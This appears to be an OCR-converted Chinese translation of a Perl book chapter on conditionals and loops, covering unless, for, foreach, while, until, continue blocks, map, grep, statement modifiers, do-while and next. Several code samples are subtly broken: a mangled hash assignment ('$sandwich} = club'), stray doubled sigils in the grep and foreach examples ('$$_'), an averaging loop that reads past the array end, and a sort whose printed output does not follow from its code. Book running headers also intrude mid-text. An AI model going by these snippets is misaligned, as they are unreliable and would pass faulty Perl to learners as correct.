以上就是 **unless** 语句的工作原理。现在来看这个示例，它展示了 **unless** 如何充当反向 **if** 语句：

```
$variable = 6;

unless ($variable == 5) {
    print "No, it's not five.\n";
}
```

> 不，它不是五。

此示例使用了 **else** 子句：

```
$variable = 6;

unless ($variable == 5) {
    print "No, it's not five.\n";
} else {
    print "Yes, it's five.\n";
}
```

> 不，它不是五。

下面的示例使用了 **elsif** 子句（注意没有 **elsunless** 语句）：

```
$variable = 2;

unless ($variable != 1) {
    print "Yes, it's one.\n";
} elsif ($variable == 2) {
    print "Yes, it's two.\n";
} elsif ($variable == 3) {
    print "Yes, it's three.\n";
} elsif ($variable == 4) {
    print "Yes, it's four.\n";
} elsif ($variable == 5) {
    print "Yes, it's five.\n";
} else {
    print "Sorry, can't match it!\n";
}
```

是的，它是二。

下面的示例使用了我们之前见过的 **while** 循环——在该循环中，我打印用户输入的每一行，*除非*该行以 *q* 或 *Q*（代表 quit 或 QUIT）开头，我通过模式匹配来检查这一点。（有关模式匹配的更多细节，请参阅第6章。）如果该行确实以 *q* 或 *Q* 开头，则代码退出：

```
while (<>) {
    chomp;
    unless (/^q/i) {
        print;
    } else {
        exit;
    }
}
```

以上就是正式的 **unless** 语句的全部内容。在结束本话题之前，请注意你可以像下面这样将 **unless** 作为修饰符与简单语句配合使用：

```
while (<>) {
    print "Too small!\n" unless $_ > 100;
}
```

与 **if** 修饰符一样，了解 Perl 可以这样工作是好事，但这个示例与 **unless** 语句并不相同——这是 **unless** *修饰符*。有关此修饰符以及其他语句修饰符的详细信息，请参阅本章后面的"使用 **if**、**unless**、**until**、**while** 和 **foreach** 修饰语句"话题。

## 使用 for 循环进行循环

"我受够了，"新手程序员说道。"受够什么了？"你问。"一个一个地累加这些值，"新手程序员说，"我的代码里一定有两打加法语句。""把它们去掉，"你说，"改用 **for** 循环。"

你使用 **for** 循环来遍历循环体中的语句，通常使用循环索引。一般来说，你像这样使用 **for** 循环：

```
LABEL for (EXPR1; EXPR2; EXPR3) BLOCK
```

第一个表达式 ***EXPR1*** 在循环体（即 ***BLOCK***）执行之前执行，这是进行初始化的地方，例如设置循环索引的初始值来计算循环执行了多少次。

第二个表达式 ***EXPR2*** 在每次循环迭代之前（即每次执行循环体之前）进行测试，如果为假则终止循环。（请注意，如果循环开始时条件即为假，循环体可能根本不会执行一次。）你通过这种方式指定循环何时结束。例如，如果你在使用循环索引，你可以检查它的值，并在循环索引达到某个值时终止循环。

第三个表达式 ***EXPR3*** 在每次循环迭代之后执行。你可以使用这个表达式为下一次循环迭代做准备，例如在使用循环索引时对其进行递增。

每次循环实际执行的代码——即循环体——位于 ***BLOCK*** 中。***LABEL*** 是一个可选标签。

你可以以多种方式使用这种循环；经典方式是使用简单的循环索引，如下所示，我使用一个名为 **$loop_index** 的循环变量来打印 "**Hello!\n**" 10 次：

```
for ($loop_index = 1; $loop_index <= 10; $loop_index++) {
    print "Hello!\n";
}
```

```
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
```

注意这个示例的工作方式：**for** 循环中的第一个表达式初始化循环索引；下一个表达式是必须求值为真才能使循环继续的测试；第三个表达式在每次循环迭代之后执行，对循环索引进行递增。使用循环索引这种方式是确保 **for** 循环只执行特定次数的方法之一。

你也可以在循环体中引用循环索引：

```
for ($loop_index = 1; $loop_index <= 10; $loop_index++) {
    print "This is iteration number $loop_index\n";
}
```

```
This is iteration number 1
This is iteration number 2
This is iteration number 3
This is iteration number 4
This is iteration number 5
This is iteration number 6
This is iteration number 7
This is iteration number 8
This is iteration number 9
This is iteration number 10
```

能够在循环体中使用循环索引在处理数组等数据结构时非常有用：

```
@a = (1, 2, 3, 4, 5, 6, 7, 8, 9);
$running_sum = 0;

for ($loop_index = 0; $loop_index <= $#a + 1; $loop_index++) {
    $running_sum += $a[$loop_index];
}

print "Average value = " . $running_sum / ($#a + 1);
```

```
Average value = 5
```

你也可以使用多个循环索引，如下例所示：

```
for ($loop_index = 0, $double = 0; $loop_index <= 10
    ; $loop_index++, $double = 2 * $loop_index) {
    print "Loop index " . $loop_index . " doubled equals " .
        $double . "\n";
}
```

Loop index 0 doubled equals 0
Loop index 1 doubled equals 2
Loop index 2 doubled equals 4
Loop index 3 doubled equals 6
Loop index 4 doubled equals 8
Loop index 5 doubled equals 10
Loop index 6 doubled equals 12
Loop index 7 doubled equals 14
Loop index 8 doubled equals 16
Loop index 9 doubled equals 18
Loop index 10 doubled equals 20

请注意，你可以在循环本身完成之后使用循环索引的值来查看发生了多少次迭代（尽管不建议这样做）：

```
$factorial = 1;
for ($loop_index = 1; $loop_index <= 6; $loop_index++) {
    $factorial *= $loop_index;
}

print $loop_index - 1 . "! = $factorial\n";
```

6! = 720

如果你想使循环变量在循环外部不可用，你需要使用 **my** 声明（有关使用 **my** 的更多细节，请参阅第7章），它将循环变量的作用域限制在循环内部：

```
$factorial = 1;
for (my $loop_index = 1; $loop_index <= 6; $loop_index++) {
    $factorial *= $loop_index;
}

print "6! = $factorial";
```

6! = 720

你完全不必在 **for** 循环中使用循环索引。对你可以使用的表达式类型没有任何语法限制。在这个示例中，我使用一个循环体中没有代码的 **for** 循环来读取用户输入的字符，直到用户输入"q"：

```
for (print "Type q to quit.\n"; <> ne "q\n"; print
    "Don't you want to quit?\n") {}

%perl quitter.pl
Type q to quit.
a
Don't you want to quit?
b
Don't you want to quit?
c
Don't you want to quit?
q
%
```

让我展示另一种从 **STDIN** 读取文本行并打印它们的方法，直到用户输入一行以 *q* 或 *Q*（代表 quit 或 QUIT）开头的行：

```
for ($line = <>; $line !~ /^q/i; $line = <>) {
    print $line;
}
```

实际上，如果你省略对 *q* 或 *Q* 的测试，可以让这个例子更短。你完全不需要使用任何变量，因为你可以使用一种形式的 **for** 循环，它会自动将 **<>**（尖括号操作符）的返回值赋给默认变量 **$_**。大多数 Perl 程序员认为这个技巧只能与 **while** 循环一起使用，但这种形式的 **for** 循环同样有效：

```
for (;<>;) {
    print;
}
```

这个循环没有循环索引，实际上完全没有显式变量。它的工作方式与下面的例子相同：

```
while (<>) {
    print;
}
```

事实上，这种形式的 **for** 循环通常更好，因为你可以为每一行打印一个提示符，而不是使用静默的 **while(<>)** 形式（这会让许多用户认为你的程序已经挂起）：

```
for (print "%"; <>; print "%") {
    print;
}
```

当你运行这个脚本并输入一些内容时，它看起来是这样的：

```
%perl promptter.pl

%Now
Now
%is
is
%the
the
%time
time
%
```

> 提示：没有显式循环索引的 Perl 循环将比具有显式循环索引的对应循环执行得更快，因为 Perl 不必支持每次迭代中使用和更新循环索引的开销。

除了 **for** 循环，Perl 还包含 **foreach** 循环，它专门设计用于遍历列表。我在这里提到 **foreach** 是因为，事实上，**for** 循环和 **foreach** 循环在 Perl 中是同一个循环。例如，这里你可以看到 **foreach** 像 **for** 一样工作，带有循环索引：

```
foreach ($loop_index = 1; $loop_index <= 10; $loop_index++) {
    print "Hello!\n";
}
```

Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!

而在这里，你可以看到 **for** 像 **foreach** 一样工作（关于 **foreach** 的更多细节，请参见下一个主题）：

```
@array = ("Hello ", "there.\n");
for (@array) {print;}
```

Hello there.

| 相关解决方案： | 所在页： |
| --- | --- |
| 使用 **my** 设置作用域 | 299 |

## 使用 foreach 循环进行循环

技术支持的员工正在打电话寻求你的帮助。他们说，代码使用 **while** 循环遍历一个列表。“停在那里，”你说，“我看到问题了。当你在遍历一个列表时，你应该尽可能使用 **foreach** 循环。”问题解决了。

尽管 **foreach** 实际上与 **for** 是同一个循环（参见前面的主题），但程序员在使用变量遍历列表（即，你可以将循环读作“对于每个……元素”）时，通常使用 **foreach**。你（通常）这样使用 **foreach**：

```
LABEL foreach VAR (LIST) BLOCK
```

这个循环遍历一个列表，将变量 *VAR* 设置为列表的每个连续元素，并执行 ***BLOCK*** 中的代码。你可以在 ***BLOCK*** 的代码中引用 ***VAR***，这样你的代码就可以处理列表中的每个连续元素。***LABEL*** 是一个可选的标签。

**foreach** 循环专门设计用于让你处理元素列表，而无需使用索引来遍历列表中的元素。它不是迭代循环索引，而是在每次迭代时自动用列表中的新元素填充循环变量。你不必担心在到达列表末尾时结束循环，因为这是自动完成的。

让我展示一个使用 **foreach** 遍历列表的例子。在这个例子中，我不使用数组索引，而是对数组中的值求和：

```
@array = (1, 2, 3);
$running_sum = 0;

foreach $element (@array) {
    $running_sum += $element;
}

print "Total = $running_sum";
```

*Total = 6*

这是一个 **foreach** 发挥作用，遍历数组的例子：

```
@name = qw(soap blanket shirt pants plow);
@category = qw(home home apparel apparel farm);
@subcategory = qw(bath bedroom top bottom field);

@indices = sort {$category[$a] cmp $subcategory[$b]
    or $category[$a] cmp $subcategory[$b]} (0 .. 4);
```

```
foreach $index (@indices) {
    print "$category[$index]/$subcategory[$index]: $name[$index]\n";
}
```

```
apparel/bottom: pants
apparel/top: shirt
home/bath: soap
home/bedroom: blanket
farm/field: plow
```

如果你不提供循环变量名，**foreach** 将使用 `$_` 作为循环变量，如果你使用默认使用 `$_` 的函数（如 **print**），这会很方便。在这个例子中，我打印数组的元素，同时依赖默认变量 `$_`：

```
@array = ("Hello ", "there.\n");
```

```
foreach (@array) {print;}
```

```
Hello there.
```

> **提示：** 如果性能是一个考虑因素，那么使用无索引形式的 **foreach** 循环比使用带索引的 **for** 循环更好，因为支持循环索引需要额外的处理器时间。

以下示例显示了显式使用 `$_` 的相同代码（请注意，这段代码采取了有些不寻常的步骤，将 `$_` 变成一个显式的循环变量）：

```
@array = ("Hello ", "there.\n");
```

```
foreach $_ (@array) {print $_;}
```

```
Hello there.
```

### 即时解决方案

当然，你可以使用 **foreach** 遍历任何类型的列表，而不仅仅是数组：

```
foreach (1 .. 10) {print;}
```

*12345678910*

下一个例子使用 **glob** '*'，它返回当前目录中所有文件的列表（关于 **glob** 的更多细节，请参见第 13 章）。在这种情况下，当前目录包含三个文件—a.pl、b.pl 和 c.pl，所以结果是：

```
foreach (glob '*') {print;}
```

*a.pl b.pl c.pl*

你可以使用 **keys** 或 **values** 函数遍历哈希，这些函数返回哈希的键或值的列表（更多信息，请参见第 3 章），像这样：

```
$hash{fruit} = orange;
$hash{sandwich} = club;
$hash{drink} = lemonade;

foreach $key (keys %hash) {
    print $hash{$key} . "\n";
}
```

*lemonade*
*club*
*orange*

**each** 函数旨在以一种非常类似于 **foreach** 语句的方式工作；此函数返回哈希的连续元素，如本例所示：

```
$hash{fruit} = orange;
$hash{sandwich} = club;
$hash{drink} = lemonade;
while(($key, $value) = each(%hash)) {
    print "$key => $value\n";
}
```

*drink => lemonade*
*sandwich => club*
*fruit => orange*

一个重要的点是，**foreach** 循环中的循环变量引用回列表中的实际元素，这意味着如果你修改循环变量，你就是在修改对应的列表元素。

当你处理不应被修改的重要数据时，你应该考虑到这一点。在下一个例子中，我遍历数组中的元素，通过递增循环变量 **$element** 来依次将每个元素加 1：

```
@array = (1, 2, 3);
foreach $element (@array) {
    $element++;
}

print join(", ", @array);
```

2, 3, 4

> **提示：** 将列表传递给 **foreach** 后，你不应该在循环体内重构该列表（例如，通过拼接数组），否则 **foreach** 可能会失败。

| 相关解决方案： | 所在页： |
|-------------------|----------------|
| glob 获取匹配文件 | 584 |

## 使用 while 遍历元素

新手程序员又遇到麻烦了。“我的代码，”NP 说，“使用 **for** 循环从文件中读取行，但我不知道何时终止循环。”“好吧，”你说，“文件里有多少行？”“问题就在这里，”新手程序员说，“我完全不知道。”“解决方案很明确，”你说，“使用 **while** 循环。”

**while** 循环在 Perl 中非常重要，因为你可以使用它在指定条件保持为真时反复执行代码。你这样使用它：

```
LABEL while (EXPR) BLOCK
LABEL while (EXPR) BLOCK continue BLOCK
```

只要 **EXPR** 为真，这个循环就执行 **BLOCK** 中的代码。**while** 循环的 **continue** 块中的代码（如果存在）在每次循环完全执行时执行，或者如果你使用显式转到循环下一次迭代的循环命令。**LABEL** 是一个可选的标签。

**while** 循环很容易使用；在这个例子中，我不断累加用户的储蓄，直到他或她赚到一百万：

$savings = 0;
while ($savings < 1_000_000) {
    print "Enter the amount you earned today: ";
    $savings += <>;
}

print "Congratulations, millionaire!\n";

我们首次在第 3 章看到以下示例。它表明在 Perl 中，你不必在 **while** 循环中使用逻辑表达式，因为 Perl 将任何 0 值都视为假：

```
use integer;

$value = 257;

while($value) {
    push @digits, (0 .. 9, a .. f)[$value & 15];
    $value /= 16;
}

while(@digits) {
    print pop @digits;
}
```

101

在下一个示例中，我使用 **while** 循环遍历由 **each** 函数返回的哈希中的键/值对。请注意，此循环会一直进行，直到 **each** 函数耗尽哈希并返回一个假值为止：

```
$hash{fruit} = orange;
$sandwich} = club;
$hash{drink} = lemonade;
while (($key, $value) = each %hash ) {
    print "$key: $value\n";
}
```

drink: lemonade
sandwich: club
fruit: orange

**while (<>** 和 **while (<FILEHANDLE>)** 形式的 **while** 循环（即括号运算符是循环条件中唯一内容的情况）具有一项许多程序员认为有用的内置属性：它们会自动将输入数据填充到默认变量 `$_` 中（**for (;<>;)** 和 **for (;<FILEHANDLE>;)** 循环也是如此）。这意味着你可能会遇到问题。强烈建议你在程序开头使用 `use strict;`，因为 Perl 可以在你犯错误（例如可能不明显的拼写错误）时向你发出警告。

```
while (<>) {
    print;
}
```

当你显式使用 `$_` 时，前面的循环看起来像这样：

```
while ($_ = <>) {
    print $_;
}
```

当在 **while** 循环（或 **for (;;)** 循环）的条件中，你将括号运算符的输入值赋值给 `$_`（显式或隐式）时，Perl 还会添加一个自动测试，以检查 `$_` 中的值是否已定义，因为当括号运算符到达输入文件末尾时，它将返回 **undef**，而不是 false。因此，以下所有示例都是等效的：

```
while (defined($_ = <FILEHANDLE>))
while ($_ = <FILEHANDLE>)
while (<FILEHANDLE>)
for (;<FILEHANDLE>;)
```

在此示例 show.pl 中，代码使用括号运算符打开其自身源文件并逐行读取，打印每一行：

```
open FILEHANDLE, "<show.pl";

while(<FILEHANDLE>) {
    print;
}
```

该脚本的运行如下：

```
%perl show.pl

open FILEHANDLE, "<show.pl";

while(<FILEHANDLE>) {
    print;
}
```

如果我使用了除默认变量 `$_` 以外的任何其他变量，我就必须显式测试 **undef** 值，如下所示：

```
open FILEHANDLE, "<show.pl";

while(defined($line = <FILEHANDLE>)) {
    print $line;
}
```

当我运行此脚本的修改版本时，结果与之前相同：

```
%perl show.pl

open FILEHANDLE, "<show.pl";

while(defined($line = <FILEHANDLE>)) {
    print $line;
}
```

**while** 循环甚至可以做更多：你还可以将此循环与 **continue** 块一起使用。

## **while** 循环中的 **continue** 块

**while** 循环的 **continue** 块中的代码（如果存在）会在每次循环完整执行时执行。

你通常使用 **while** 循环的 **continue** 块在每次迭代后执行代码。在这个使用 **continue** 块的示例中，我使 **while** 循环的行为就像 **for** 循环一样：

```
$loop_index = 1;

while ($loop_index <= 10) {
    print "Hello!\n";
} continue {
    $loop_index++;
}
```

Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!

这样，你可以将 **continue** 块用作 **for** 循环中的第三个也是最后一个表达式——在每次循环迭代后执行代码。在实践中，你很少看到 **continue** 块被使用。如果你想使用一个 **continue** 块很重要的循环，你通常会使用 **for** 循环。

**while** 循环中的 **continue** 块在以下情况下最有用：你不执行 **while** 循环的整个主体，但仍然希望确保在每次迭代后执行某些代码。例如，这里我使用 **next** 语句在 **while** 循环执行几次后缩短其主体。（请参阅本章后面的“使用 **next** 跳转到下一个循环迭代”主题。）请注意，每次循环执行时，**continue** 块中的代码仍然会被执行：

```
while ($loop_index <= 10) {
    print "Hello\n";
    next if $loop_index > 5;
    print "there\n";
} continue {
    $loop_index++;
}
```

最后，值得注意的是 **while** 循环首先测试其条件，因此循环体可能根本不会执行一次。如果条件为假时执行循环体会引起问题，这很有用，例如在以下示例中，如果文件句柄 **FILEHANDLE** 无效，你就不应该打印文件中的行：

```
while (<FILEHANDLE>) {
    print;
}
```

## 反向 while 循环：until

你有一个名为 **$error** 的变量，并希望在 **$error** 保持为假时继续循环。你可以这样设置 **while** 循环：`while (!$error)`，这没问题，但看起来有点笨拙。在 Perl 中，更好的方法是使用 **until** 循环，如下所示：`until ($error)`。

**until** 循环与 **while** 循环相同，只是它以相反的逻辑意义测试其条件。你可以按如下方式使用此循环：

```
LABEL until (EXPR) BLOCK
LABEL until (EXPR) BLOCK continue BLOCK
```

此循环只要 **EXPR** 为 *假*（而不是像 **while** 循环那样为真），就会执行 **BLOCK** 中的代码。**until** 循环的 **continue** 块中的代码（如果存在）会在每次循环完整执行时执行，或者如果你使用明确跳转到循环下一次迭代的循环命令时执行。**LABEL** 是一个可选标签。

这个循环就像一个反向逻辑的 **while** 循环。此示例会持续循环并回显用户输入的内容，*直到*用户输入“q”并按下回车键：

```
until (($line = <>) eq "q\n") {
    print $line;
}
```

Now
is
the
time
q

# 第 5 章 条件语句和循环

这是另一个示例，我使用循环索引使用 **until** 循环打印字符串 "Hello!\n" 10 次：

```
$loop_index = 1;
until ($loop_index > 10) {
    print "Hello!\n";
    $loop_index++;
}
```

Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!

与 **while** 循环一样，**until** 也可以支持 **continue** 块。

> 提示：混淆 **until** 和 **unless** 语句可能非常容易，因此请记住 **until** 是反向逻辑的 **while**，而 **unless** 是反向逻辑的 **if**。

## **until** 循环中的 **continue** 块

**until** 循环的 **continue** 块中的代码（如果存在）会在每次循环完整执行时执行，或者如果你使用明确跳转到循环下一次迭代的循环命令时执行。（请参阅本章后面的“使用 **next** 跳转到下一个循环迭代”。）

在此示例中，我将 **until** 循环用作反向 **for** 循环，在 **continue** 块中递增循环索引：

```
$loop_index = 1;
until ($loop_index > 10) {
    print "Hello!\n";
} continue {
    $loop_index++;
}
```

Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!
Hello!

**until** 循环（`until (!condition)`）与 **while** 循环（`while (condition)`）类似，因此有关 **until** 循环的更多信息，请参阅本章前面的“使用 **while** 遍历元素”主题。

## 使用 **map** 遍历元素

至此，你已经了解了 **for**、**while** 和 **unless**。Perl 还有其他循环结构吗？是的，它有：**map** 和 **grep**。这些函数与其他循环一样，以几乎相同的方式遍历列表。从技术上讲，**map** 和 **grep** 不是正式的循环语句，但在实践中它们的工作方式非常相似，因此我将在本章简要介绍它们两者，因为在创建循环时，**map** 或 **grep** 可能正是你所需要的。

**map** 函数通常如下所示：

```
map BLOCK LIST
map EXPR, LIST
```

此函数对 *LIST* 的每个元素计算 *BLOCK* 或 *EXPR*（本地将 `$_` 依次设置为每个元素）。它返回每次计算的结果列表。请注意，**map** 在列表上下文中计算 *BLOCK* 或 *EXPR*，因此 *LIST* 的每个元素可以在返回的列表中生成一个或多个元素（包括零个元素）。

考虑下一个示例。如果你想将数组中的每个元素乘以 2 怎么办？为此，你可以使用 **foreach** 循环，如下所示：

```
@a = (1 .. 10);

foreach (@a) {$_ *= 2;}

print join(", ", @a);
```

*2, 4, 6, 8, 10, 12, 14, 16, 18, 20*


## 第五章 条件语句与循环

你也可以像这样使用 **map**（注意这个例子与前面使用 **foreach** 的代码多么相似）：

```
@a = (1 .. 10);
```

```
map {$_ *= 2} (@a);
```

```
print join(", ", @a);
```

2, 4, 6, 8, 10, 12, 14, 16, 18, 20

与其他循环一样，使用 **map** 时，你也可以执行多语句表达式。例如，在这个例子中，我使用 **my** 关键字（关于 **my** 的所有细节，请参见第 7 章）来创建当前值的一个本地副本 **$value**，然后递增 **$value**，从而保持 **$_** 不变。否则，如果你修改了 **$_**，列表中对应的元素也会被修改。

```
print join(", ", (map {my $value = $_; $value *= 2} (1 .. 10)));
```

2, 4, 6, 8, 10, 12, 14, 16, 18, 20

因此，当你需要寻找一个用于遍历列表的循环时，请记住，你所需要的循环可能是 **map**，而不一定是 **foreach**。

> **注意**：我在此章中包含 **map** 和 **grep** 是为了内容的完整性，并将它们与正式的循环结构进行比较。

| 相关解决方案： | 所在页码： |
| --- | --- |
| 使用 **map** 处理列表中的每一项 | 84 |
| 使用 **grep** 查找符合你标准的列表项 | 85 |
| 使用 **my** 设置作用域 | 299 |

## 使用 **grep** 搜索元素

如果你想选择列表中符合某个条件的项呢？比如说，你想从一个主数组中获取所有大于 5 的数字组成的数组。你会怎么做呢？

你可以使用 **grep** 函数，它通常这样工作：

```
grep BLOCK LIST
grep EXPR, LIST
```

此函数会对 **LIST** 的每个元素计算 **BLOCK** 或 **EXPR**（将 **$_** 依次设置为每个元素），并返回由那些表达式为真的元素组成的列表。注意，在标量上下文中，**grep** 返回表达式为真的次数。还要注意，这里的 **BLOCK** 和 **EXPR** 都是在标量上下文中计算的，这与 **map** 中的 **BLOCK** 和 **EXPR** 不同，后者是在列表上下文中计算的。

这个函数 **grep** 与 **map** 的不同之处在于，**grep** 返回的是列表中满足特定条件的一个子列表，而 **map** 则是对列表中的每一项计算一个表达式。

那么，如果你想获取主数组中所有大于 5 的数字组成的数组呢？你可以使用 **foreach** 来遍历数组并测试每个元素，就像这样，我通过显式地将元素推入到一个新数组来创建它：

```
@a = (1 .. 10);

foreach (@a) {if ($$_ > 5) {push @b, $$_}};

print join(", ", @b);
```

6, 7, 8, 9, 10

使用 **grep** 来找到这个数组要容易得多（通常当你需要创建一个主列表中包含匹配指定条件的元素的子列表时，情况都是如此）。下面是它的样子：

```
@a = (1 .. 10);
@b = grep {$$_ > 5} @a;

print join(", ", @b);
```

6, 7, 8, 9, 10

**grep** 版本的工作方式与 **foreach** 循环完全相同，但它更容易实现。

现在，看看这个例子，它使用正则表达式从文本中移除四个字母的单词（参见第 6 章）：

```
print join(" ",(grep {!/^\w{4}$/} (qw(Here are some four letter words.))));
```

*are letter words.*

因此，当你需要寻找一个用于遍历列表的循环时，请记住，你所需要的循环可能是 **grep**，而不一定是 **foreach**。

再次注意，我在此章中包含 **map** 和 **grep** 是为了内容的完整性，并将它们与正式的循环结构进行比较。

| 相关解决方案： | 所在页码： |
| --- | --- |
| 使用 **map** 处理列表中的每一项 | 84 |
| 使用 **grep** 查找符合你标准的列表项 | 85 |

## 使用 **if**、**unless**、**until**、**while** 和 **foreach** 修饰语句

> “我听说，”编程正确性专员调整着他那傲慢的单片眼镜说道，“在 Perl 中，你可以在语句的开头或结尾使用 **if**——这多奇怪啊。” “不仅如此，”你热情地说，“**unless**、**while** 和 **until** 也是如此。” 单片眼镜掉了下来，专员的眉毛高高扬起。

确实如此：除了 Perl 中正式的条件和循环语句外，你还可以在标准语句的末尾使用像这样的语句修饰符：

```
if EXPR
unless EXPR
while EXPR
until EXPR
foreach EXPR
```

语句修饰符的工作方式与正式的条件和循环语句大致相同，但它们通常更容易阅读。例如，假设大老板要求你创建一个圣诞程序，该程序回显除了 "L" 之外的任何字符。（你问大老板：“为什么它不回显 'L'？”“没有 'L'，”大老板说。“明白吗？*Christmas*。”“哦，”你说。）你可以像这样使用 **unless** 语句来编写该代码：

```
while ($input = <>) {
    unless ($input eq 'L') {print "You typed: $input\n"};
}
```

上面的代码可以工作，但读起来有点绕。“L”是例外，而不是规则，所以如果你要描述代码的功能，你可能会说“回显键入的字符，除非该字符是 L”，而不是“除非键入的字符是 L，否则回显键入的字符”。

使用语句**修饰符**，你可以让代码读起来更容易一些。你可以使用 **unless** 作为修饰符，因此我这样重写这段代码，它读起来更像你在描述代码实际功能时会说的话：

```
while (chomp($input = <>)) {
    print "You typed: $input\n" unless $input eq 'L';
}
```

换句话说，修饰符主要是一种便捷机制；它们改变的不是代码的工作方式，而是代码的阅读方式。

> *提示：因为这是 Perl，所以上述说法并不完全正确。使用循环语句和相应的循环语句修饰符之间的一个区别是，循环语句修饰符不支持 **continue** 块或循环控制命令。*

现在，看看另一个例子，我在其中使用 **if** 修饰符来打印消息 **"Too big!\n"**，如果用户输入的值大于 100：

```
while (<>) {
    print "Too big!\n" if $_ > 100;
}
```

在下一个例子中，我使用 **until** 修饰符来持续提示输入更多内容，直到用户输入 "q"：

```
print "Please enter more text (q to quit).\n"  until (<> eq "q\n");
```

这个例子指出了语句修饰符的一个重要方面：它们的计算优先级高于语句的其余部分，正如你预期的那样，如果它们位于语句的开头。（这里的想法是，使用语句修饰符只是改变了代码的阅读方式，而不是它的工作方式。）注意这里代码是如何在打印任何内容*之前*接受用户输入（用户从输入 "Hello?" 开始）的：

```
print "Please enter more text (q to quit).\n"  until (<> eq "q\n");
```

```
Hello?
Please enter more text (q to quit).
Why should I?
Please enter more text (q to quit).
q
```

# 直接解决方案

## 5. 条件语句与循环

使用 **while** 作为修饰符，你可以创建一个 **while** 循环来打印用户输入的内容，如下所示：

```
print while (<>);
```

注意，在这种情况下，从 **<>** 返回的值会自动进行测试（查看是否已定义）并赋值给 **$_**，就像在简单的 **while** 循环中一样。

并且，在这个例子中，我使用 **foreach** 作为语句修饰符：

```
print "Current number: $_.\n" foreach (1 .. 5);
```

*Current number: 1.*
*Current number: 2.*
*Current number: 3.*
*Current number: 4.*
*Current number: 5.*

## 使用 **do** 语句创建 **do while** 循环

“哇，”编程正确性沙皇一边翻阅你的代码一边说。“我以为 Perl 没有 **do while** 循环。” “它没有，”你说。“但是，就在这儿，在你的代码里，”编程正确性专员说，“你写了一个 **do while** 循环。” “那不是 **do while** 循环，”你说，“那是带有 **while** 语句修饰符的 **do** 语句。” “哦，”编程正确性专员无力地说，“它是怎么工作的？” “就像一个 **do while** 循环，”你说。

许多程序员认为，哪里有 **while** 循环，哪里就会有 **do while** 循环，但在 Perl 中并非如此。Perl 没有真正的 **do while** 循环。然而，它确实有一个 **do** 语句，其工作方式如下：

```
do BLOCK
do SUBROUTINE(LIST)  # 已弃用！
do EXPR
```

这种语句的第一种形式 **do BLOCK** 执行 **BLOCK** 中的代码，并返回该块语句序列中最后一条语句的值。第二种形式 **do SUBROUTINE(LIST)** 是一种已弃用的子程序调用形式。你可以用它来调用子程序，但这是 Perl 早期遗留下来的用法，现在已不真正支持。这里显示的第三种形式将 **EXPR** 解释为一个文件名，并执行该文件的内容，如下所示：**do "myscript.pl"**。


当你使用语句修饰符 **while** 时，你可以像这样构建一个看似合理的 **do while** 循环：

```
do {
    print;
} while (<>);
```

这个示例看起来非常像你在其他编程语言中能找到的 **do while** 循环。

让我补充一个重要的点：在测试 **while** 修饰符中的条件之前，循环体至少会执行一次。（通常，语句修饰符中的条件在语句之前执行，但 Perl 实际上在 **do while** 结构中有一个特定的例外。）这一点很重要，特别是在循环体中的代码必须在测试条件之前执行的情况下，就像这个例子中，变量 **$v** 在循环体执行之前甚至不存在（注意，这在使用普通的 **while** 循环时会成为问题）：

```
@a = (1 .. 10);

do {

    $v = shift @a;
    print "Current number: $v\n";

} while ($v < 5);
```

> *Current number: 1*
*Current number: 2*
*Current number: 3*
*Current number: 4*
*Current number: 5*

> **提示：** 另一方面，因为循环体在测试条件 *之前* 执行，所以循环的最后一次迭代是在 **while** 修饰符中的条件实际上为假的情况下执行的。在这个例子中，这意味着当 **$v = 5** 时。

请记住，这不是一个真正的循环语句，因此，例如，不要使用接下来的主题中将介绍的那种循环控制语句（即 **next**、**redo** 或 **last**）。但是，如果你需要一个希望代码体至少执行一次的循环（这就是为什么在其他编程语言中 **while** 和 **do while** 循环都存在），可以考虑使用 **do while** *结构*（而不是循环）。

## 使用 next 跳到下一次循环迭代

那么，如果在循环中途发生某些错误怎么办？你能像在 C 等其他语言中那样跳到循环的下一次迭代吗？

是的，你当然可以。**next** 循环命令会立即开始循环的下一次迭代，跳过循环体中可能跟随它的任何语句。

你使用 **next** 时带一个标签（即一个后跟冒号标记一行代码的文本字符串），就像在这种情况下，只要用户输入的数字不是负数（我在这里通过查找前导 "-" 来测试；有关字符串匹配的更多详细信息，请参见第 6 章），我就打印该数字：

```
NUMBER: while (<>) {
    next NUMBER if /^-/;
    print;
}
```

请注意这个示例的工作原理：如果输入行以 "-" 开头，代码将跳到循环的下一次迭代而不打印任何内容，因为执行了语句 **next NUMBER**，这意味着控制权跳转到标记为 **NUMBER** 的那一行。请注意在 Perl 中如何标记一行代码——你只需使用标签，后跟一个冒号即可。

> **提示：** 我建议将标签全部使用大写字母，这样它们就不会与 Perl 保留字混淆。

在下一个示例中，我将一组数字 @a 除以另一组 @b，这会是一个问题，除非我们检查除以 0 的情况，因为 @b 中有一个 0。我可以使用 **next** 语句来检查我们是否即将除以 0，如果是，则跳到循环的下一次迭代。请注意，输出中缺少 *10 / 0*：

```
@a = (0 .. 20);
@b = (-10 .. 10);

DIVISION: while (@a) {
    $a = pop @a;
    $b = pop @b;

    next DIVISION if ($b == 0);
    print "$a / $b = " . $a / $b . "\n";
}
```

```
20 / 10 = 2
19 / 9 = 2.11111111111111
```

即时解决方案

```
18 / 8 = 2.25
17 / 7 = 2.42857142857143
16 / 6 = 2.66666666666667
15 / 5 = 3
14 / 4 = 3.5
13 / 3 = 4.33333333333333
12 / 2 = 6
11 / 1 = 11
9 / -1 = -9
8 / -2 = -4
7 / -3 = -2.33333333333333
6 / -4 = -1.5
5 / -5 = -1
4 / -6 = -0.666666666666667
3 / -7 = -0.428571428571429
2 / -8 = -0.25
1 / -9 = -0.111111111111111
0 / -10 = 0
```

当你使用 **next** 时，循环的 **continue** 块中的代码会怎样？它仍然会被执行。我们之前在讨论 **while** 循环的 **continue** 块时看到的这个例子说明了这一点：

```
while ($loop_index <= 10) {
    print "Hello\n";
    next if $loop_index > 5;
    print "there\n";
} continue {
    $loop_index++;
}
```

```
Hello
there
Hello
there
Hello
there
Hello
there
Hello
there
Hello
there
Hello
Hello
```

Hello
Hello
Hello

